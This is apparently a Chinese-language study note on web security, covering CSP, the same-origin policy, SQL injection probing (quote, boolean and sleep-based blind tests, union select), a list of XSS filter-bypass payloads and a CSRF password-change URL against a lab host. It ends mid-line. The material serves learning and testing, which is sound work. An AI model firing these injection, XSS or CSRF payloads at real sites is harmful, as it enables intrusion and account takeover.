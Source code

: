 ### 内容安全策略（CSP）
内容安全策略   (CSP) 是一个额外的安全层，用于检测并削弱某些特定类型的攻击，包括跨站脚本 (XSS) 和数据注入攻击等

### Web浏览器安全策略
* CSP
* 安全沙箱 H5新增特性，使用标签``<iframe>``
* 同源策略 最基本的安全策略，由网景提出，同源指的是域名、协议、端口相同


## SQL注入
### 判断能否sql注入
* 提交单引号 ```id=1'```
* and大法和or大法 
```
id=2 and 1=1
id=2 or 1=1 
```
* 加减法
```
id=1+1
```
### 数据库权限判断

### 猜字段个数
* 在注入点后面加order by x


### 显错注入和盲注
*  显错注入，即带回显错误提示，主要是利用了联合查询union select
*  盲注，没有任何信息返回，一般可以利用时间sleep()来判断查询成功与否，使用and来盲猜数据库名，表名


## XSS
### 绕过方法
```
<script>alert("test")</script>

<img src="javascript:alert('XSS')">

<img src="#" onerror=alert(/跨站/)></img>

<img src="javascript:alert(/xss/)">

<iframe/onload=alert(/insight-labs/)>

<div style=”width:expression(alert('xsser'))″>xsser</div>
```

### CSRF(cross site request forgery)
* 直接生成包含url参数的欺骗链接，如在任何未验证的情况下修改用户密码：http://10.1.1.174/vulnerabilities/csrf/**?password_new=123&password_conf=123&Change=Change#**
* r